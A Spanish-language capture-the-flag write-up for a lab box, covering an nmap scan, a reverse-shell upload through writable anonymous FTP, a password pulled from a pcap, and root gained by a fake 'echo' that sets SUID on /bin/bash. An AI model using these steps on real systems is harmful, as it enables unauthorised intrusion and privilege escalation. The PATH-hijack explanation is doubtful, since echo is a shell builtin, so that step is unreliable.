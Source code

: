 # Startup

## Initial Scan
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Oct 02 18:43 ftp [NSE: writeable]
| -rw-r--r--    1 1000     1000        49685 Sep 22 12:37 important.jpg
|_-rw-r--r--    1 0        0             208 Oct 02 18:43 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.11.4.77
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e8:7c:ee:58:b5:d3:44:7c:fd:86:95:20:16:d0:f9:8a (RSA)
|   256 d3:d1:f5:65:e4:5d:98:6a:08:5b:10:6d:6f:e2:29:2f (ECDSA)
|_  256 23:11:b7:d5:2b:77:51:54:12:d7:1c:9d:46:5a:4f:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance

```
## Enum
### FTP
Tenemos login anonymous y podemos ver varios archivos en el FTP, tambien podemos ver que dentro de la carpeta del ftp podemos subir archivos 
### Notice.txt
```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```
### HTTP
```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/files (Status: 301)
/server-status (Status: 403)
```
En el /files vemos el mismo notice.txt del ftp y la misma carpeta /ftp , tal vez podamos subir una reverse shell
## Exploit
Nos logeamos al servidor ftp y subimos una reverse shell en la carpeta ftp, abrimos un listener en local con netcat y accedemos desde el navegador
## Privesc
Tenemos shell como www-data intentemos movernos a un usuario de verdad 
```
root:x:0:0:root:/root:/bin/bash
lennie:x:1002:1002::/home/lennie:
ftpsecure:x:1003:1003::/home/ftpsecure:
```
### Lennie
Podemos acceder a una carpeta llamada incidents con un pcap

Abrimos un python HTTP Server en la maquina objetivo y descargamos el file desde nuestra maquina, analizando las trazas vemos trafico de una reverse shell
```
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: c4ntg3t3n0ughsp1c3
Podemos acceder al user lennie usando esa password
```
### Root
Dentro de la carpeta de lenie podemos ver este script
```
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```
echo no se usa con su ruta absoluta lo que nos permite secuestrar el path para escalar privilegios.

Para ello vamos a /tmp y creamos un archivo llamado echo con el siguiente contenido
```
#!/bin/bash
chmod +s /bin/bash
```
Añadimos /tmp al path o nos sitruamos en /tmp, tras esto ejecutamso el planner.sh y habremos modificado los permisos de /bin/bash añadiendo un SUID como root
```
/bin/bash -p
```
Y ya somos root
